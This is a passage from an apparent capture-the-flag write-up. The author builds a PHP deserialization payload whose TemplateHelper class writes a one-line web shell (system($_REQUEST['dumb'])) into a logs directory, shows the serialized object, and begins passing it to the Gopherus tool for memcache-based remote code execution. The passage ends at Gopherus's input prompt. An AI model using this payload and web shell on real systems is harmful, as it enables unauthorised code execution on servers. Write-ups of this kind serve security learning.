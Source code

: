 

#### Class TemplateHelper

I am able to poison memcache but take me too long to figure out how use that to achieve a rce and reverse shell. After some hints, I  return my attentions to *TemplateHelper* class. This particular class has a function named *init* that write files in *log* directory .  After change this class to meet my desire, it look like this:

```php
<?php

class TemplateHelper
{

    public $file;
    public $data;

    public function __construct(string $file, string $data)
    {
        $this->init($file, $data);
    }


    private function init(string $file, string $data)
    {
        $this->file = $file;
        $this->data = $data;
        file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
    }
}

$payload = new TemplateHelper("dumbx90.php","<?php system(\$_REQUEST['dumb']); ?>");
echo serialize($payload);
?>
```

I create a directory named *logs* and run the code above:

```bash
php pwn.php
O:14:"TemplateHelper":2:{s:4:"file";s:11:"dumbx90.php";s:4:"data";s:35:"<?php system($_REQUEST['dumb']); ?>";}          

bat logs/dumbx90.php -p
<?php system($_REQUEST['dumb']); ?>
```

Ok, so I copy the serialized object  and put that in *Gopherus* :

```bash
./gopherus.py --exploit phpmemcache


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$


This is usable when you know Class and Variable name used by user

Give serialization payload
```